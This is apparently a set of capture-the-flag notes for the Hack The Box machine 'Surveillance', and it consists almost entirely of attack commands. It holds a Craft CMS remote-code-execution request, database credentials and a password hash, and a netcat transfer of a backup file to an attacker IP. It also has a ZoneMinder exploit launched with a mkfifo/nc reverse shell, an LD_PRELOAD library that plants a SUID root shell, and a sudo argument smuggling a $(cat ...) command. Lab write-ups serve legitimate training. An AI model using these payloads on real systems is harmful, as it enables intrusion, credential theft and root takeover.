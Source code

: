 # CVE 
https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

```
POST / HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 214

action=conditions/render&configObject[class]=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}
```

# file path
```shell
/var/www/html/craft/web/index.php
```
# found mysql password on .env file two directories above the current dir
```shell

mysql -h localhost -u craftuser -pCraftCMSPassword2023! craftdb -e "show tables;" 
mysql -h localhost -u craftuser -pCraftCMSPassword2023! craftdb -e "select * from users;"

admin/matthew:$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe
```
# has a sql backup file on ../../storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip

# transferred the file using netcat
```shell
cat surveillance--2023-10-17-202801--v4.4.14.sql.zip | nc 10.10.14.84 4444
```

matthew:starcraft122490

# forwarded port 8080 to using ssh

```shell
ssh matthew@surveillance.htb -L 8080:localhost:8080
```

# port 8080 uses a vulnerable zoneminder version v1.36.32

https://github.com/heapbytes/CVE-2023-26035?tab=readme-ov-file

```shell
python3 exploit.py  --target http://127.0.0.1:8080/ --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.84 4444 >/tmp/f"

```

# zoneminder user has sudo privilege  /usr/bin/zm*.pl *
# zoneminder LD_PRELOAD

```c++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("cp /bin/bash /tmp/ch1");
system("chown root:root /tmp/ch1");
system("chmod 4755 /tmp/ch1");

}

```

```shell
gcc -fPIC -shared -o /tmp/expl2.so exploit.c -nostartfiles

```
# created a c shared file that copies the bash executable to /tmp, changed it to a SUID, then on the zoneminder service, changed the LD_PRELOAD to /tmp/expl2.so and executed 
```shell
sudo zmupdate.pl startup
```

# it creates a SUID file that can be executed to escalate privileges to root

# straight forward privesc
```shell
sudo /usr/bin/zmupdate.pl --version 10 -u '$(cat /root/root.txt)'
```